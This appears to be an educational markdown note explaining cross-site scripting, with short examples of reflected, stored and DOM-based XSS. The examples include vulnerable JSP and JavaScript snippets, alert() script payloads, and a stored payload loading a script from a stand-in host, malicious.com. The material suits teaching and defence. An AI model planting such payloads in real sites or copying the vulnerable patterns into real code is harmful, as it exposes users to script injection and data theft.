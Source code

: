 ## XSS

- Cross-Site Scripting (XSS) vulnerability is a type of computer security vulnerability that allows an 
attacker to execute malicious code on a user's web page without their knowledge or consent. 

- This vulnerability enables the attacker to steal personal information, such as usernames, passwords, 
and other confidential data.

- Essentially, an XSS attack involves inserting malicious code into a vulnerable web page, which is then 
executed in the browser of the user accessing that page. The malicious code can be anything from scripts 
that redirect the user to another page to scripts that log keystrokes or form data and send them to a remote server.

There are several types of XSS vulnerabilities, including:
### Reflected XSS: 
This type of XSS occurs when user-provided data is reflected in the HTTP response without proper validation. 
This allows an attacker to inject malicious code into the response, which is then executed in the user's browser.

#### Example of Reflected XSS:

```xml
<% String eid = request.getParameter("eid"); %>
...
Employee ID: <%= eid %>

```
In this example, if an attacker sets the "eid" parameter to `<script>alert('XSS')</script>`, it will execute in the victim's browser

### Stored XSS: 
This type of XSS occurs when an attacker is able to store malicious code in a database or on the web server hosting a vulnerable web page. 
This code is executed every time the page is loaded.

#### Example of Stored XSS:

```xml
<p>I highly recommend this product!</p>
<script src="http://malicious.com/exploit.js"> </script>
```
In this case, the malicious script is stored in the comment section of a retail website and will be executed every time a user views the page

### DOM-Based XSS:

This type of XSS occurs when malicious code is executed in the user's browser through the Document Object Model (DOM). 
This happens when JavaScript code on a web page modifies the DOM in a way that is vulnerable to malicious code injection.

#### Example of DOM-Based XSS:

```JavaScript
var name = document.location.hash.substr(1);
document.write("Hello, " + name);
```

If the URL ends with `#<script>alert('XSS')</script>`, the script will be executed.